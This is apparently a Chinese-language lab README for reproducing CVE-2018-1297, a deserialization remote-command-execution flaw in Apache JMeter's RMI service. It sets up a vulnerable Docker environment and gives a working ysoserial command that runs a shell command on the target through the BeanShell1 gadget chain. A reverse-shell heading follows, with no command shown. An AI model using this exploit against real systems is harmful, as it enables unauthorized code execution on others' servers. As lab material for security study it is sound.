


# Apache JMeter RMI 反序列化命令执行漏洞（CVE-2018-1297）

Apache JMeter 是美国阿帕奇（Apache）软件基金会的一套使用 Java 语言编写的用于压力测试和性能测试的开源软件。其 2.x 版本和 3.x 版本中存在反序列化漏洞，攻击者可以利用该漏洞在目标服务器上执行任意命令。

## 漏洞环境

运行漏洞环境：

```
docker compose up -d
```

运行完成后，将启动一个 RMI 服务并监听 1099 端口。

## 漏洞复现

直接使用 ysoserial 即可进行利用：

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 BeanShell1 'touch /tmp/success'
```

我们使用的是 BeanShell1 这条利用链。使用 `docker compose exec jmeter bash` 进入容器，可见 `/tmp/success` 已成功创建：



反弹 shell:


